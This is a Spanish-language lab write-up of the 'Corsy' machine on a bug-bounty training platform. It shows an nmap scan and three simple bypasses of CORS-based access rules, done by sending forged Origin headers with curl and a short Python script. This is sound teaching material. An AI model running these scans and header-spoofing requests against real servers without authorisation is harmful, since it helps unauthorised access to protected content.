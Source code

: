 Máquina **Corsy** de la plataforma **[BugBountyLabs](https://bugbountylabs.com/)**.

Autores: El Pingüino de Mario & Curiosidades De Hackers

Dificultad: Avanzado



![Corsy](images/corsy/corsy.png)

# Reconocimiento

 Comenzamos con un escaneo de `nmap`:

```css
nmap -p- --open --min-rate 5000 -Pn -n -vvv -sSVC -oN escaneo.txt 172.17.0.2
```

```ruby
# Nmap 7.95 scan initiated Wed Jan 22 15:43:01 2025 as: nmap -p- --open --min-rate 5000 -Pn -n -vvv -sSVC -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-01-22 15:43:02 -03 for 28s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.62
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://corsy.lab//
|_http-server-header: Apache/2.4.62 (Debian)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: 403 Forbidden
9090/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Hosts: corsy.lab, 172.17.0.2

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 22 15:43:30 2025 -- 1 IP address (1 host up) scanned in 28.32 seconds
```

en esta plataforma, el objetivo no es que entremos en la máquina, si no el lograr explotar las 3 vulnerabilidades que se encuentran en ella, la cual realmente es una: Cross-Origin Resource Sharing

Como dije anteriormente, tenemos la vulnerabilidad **Cross-Origin Resource Sharing** en 3 puertos diferentes, el objetivo sería lograr acceder al "index.html" el cual está bloqueado y nos sale 403.

# Puerto 80

Para lograr acceder al html, en este caso simplemente podemos hacerlo con `curl` poniendo el origen como "corsy.lab", ya que ese es el dominio que tenemos (el cual tenemos que agregar en el `/etc/hosts` de nuestra máquina atacante):

```css
curl http://corsy.lab -H "Origin: http://corsy.lab"
```

con simplemente enviar eso ya podremos ver el html y podemos pasar al próximo nivel/puerto.

# Puerto 8080

En este caso, si intentamos hacerlo con `curl` no nos deja, por lo que podemos intentar bypasearlo usando un script en python:

```python
import requests

url = "http://corsy.lab:8080"

headers = {
    "Origin": "http://corsy.lab",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Connection": "keep-alive"
}

response = requests.get(url, headers=headers)

print(f"Body:\n{response.text}")
```

Luego de ejecutarlo, podremos ver el html y podemos pasar al último nivel.

# Puerto 9090

En este caso, podemos hacerlo de distintas maneras, pero yo lo haré con `curl`, ya que en este caso, el cors parece estar configurado para que nos deje ver el html solo en caso de que el origen sea `http**s**://corsy.lab`, ya que si ponemos `http` nos saldrá "403 Forbidden":

```css
curl http://corsy.lab:9090 -H "Origin: https://corsy.lab"
```

al ejecutarlo, podremos ver el código html (la web) y habremos bypaseado todos los cors y finalizado la máquina.

Gracias por leer ;)